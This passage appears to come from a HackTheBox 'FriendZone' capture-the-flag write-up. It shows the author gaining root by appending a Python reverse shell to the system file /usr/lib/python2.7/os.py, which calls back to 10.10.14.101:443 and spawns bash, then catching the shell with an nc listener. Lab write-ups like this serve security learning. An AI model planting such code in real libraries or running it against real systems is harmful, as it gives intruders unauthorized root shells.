 
I use `vi` to open the module at `/usr/lib/python2.7/os.py` and add the following at the end:

```python
import pty
import socket

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.14.101",443))
dup2(s.fileno(),0)
dup2(s.fileno(),1)
dup2(s.fileno(),2)
pty.spawn("/bin/bash")
s.close()
```


![edit-os-48](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/FriendZone/img/edit-os-48.png)


Then I save the file and close it, start my local listner with:

```bash
rlwrap nc -lnvp 443
```

And wait for the connection, which came after a couple of minutes:

![root-49](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/FriendZone/img/root-49.png)
